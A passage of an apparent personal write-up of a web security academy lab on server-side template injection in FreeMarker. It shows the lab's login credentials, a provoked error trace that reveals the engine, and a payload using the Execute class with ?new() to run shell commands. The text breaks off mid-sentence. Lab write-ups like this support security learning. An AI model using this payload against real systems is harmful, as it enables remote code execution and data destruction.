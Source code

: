 # Description

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

# Solution

In product description editor, try to corrupt variables name, and triggrer errors.

```java
Hurry! Only FreeMarker template error (DEBUG mode; use RETHROW in production!): The following has evaluated to null or missing: ==> product.stoc [in template "freemarker" at line 5, column 18] ---- Tip: It's the step after the last dot that caused this error, not those before it. ---- Tip: If the failing expression is known to legally refer to something that's sometimes null or missing, either specify a default value like myOptionalVar!myDefault, or use <#if myOptionalVar??>when-present<#else>when-missing. (These only cover the last step of the expression; to cover the whole expression, use parenthesis: (myOptionalVar.foo)!myDefault, (myOptionalVar.foo)?? ---- ---- FTL stack trace ("~" means nesting-related): - Failed at: ${product.stoc} [in template "freemarker" at line 5, column 16] ---- Java stack trace (for programmers): ---- freemarker.core.InvalidReferenceException: [... Exception message was already printed; see it above ...] at freemarker.core.InvalidReferenceException.getInstance(InvalidReferenceException.java:134) at freemarker.core.EvalUtil.coerceModelToTextualCommon(EvalUtil.java:479) at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:401) at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:370) at freemarker.core.DollarVariable.calculateInterpolatedStringOrMarkup(DollarVariable.java:100) at freemarker.core.DollarVariable.accept(DollarVariable.java:63) at freemarker.core.Environment.visit(Environment.java:331) at freemarker.core.Environment.visit(Environment.java:337) at freemarker.core.Environment.process(Environment.java:310) at freemarker.template.Template.process(Template.java:383) at lab.actions.templateengines.FreeMarker.processInput(FreeMarker.java:58) at lab.actions.templateengines.FreeMarker.act(FreeMarker.java:42) at lab.actions.common.Action.act(Action.java:57) at lab.actions.common.Action.run(Action.java:39) at lab.actions.templateengines.FreeMarker.main(FreeMarker.java:23) [Return](https://0a11007104e1e19e826e47c900b60063.web-security-academy.net/)
```

It is java, FTL Free Maker template enginge

In hack tricks found payload to execute commands

```js
${"freemarker.template.utility.Execute"?new()("ls")}
```

but ideally i neede to read it from documentation, but it is not so easy

In FAQ page in documentation i could find key word "security"

![](Attachments/Pasted%20image%2020240530213554.png)

and there is row about `new()`

The `new` built-in 

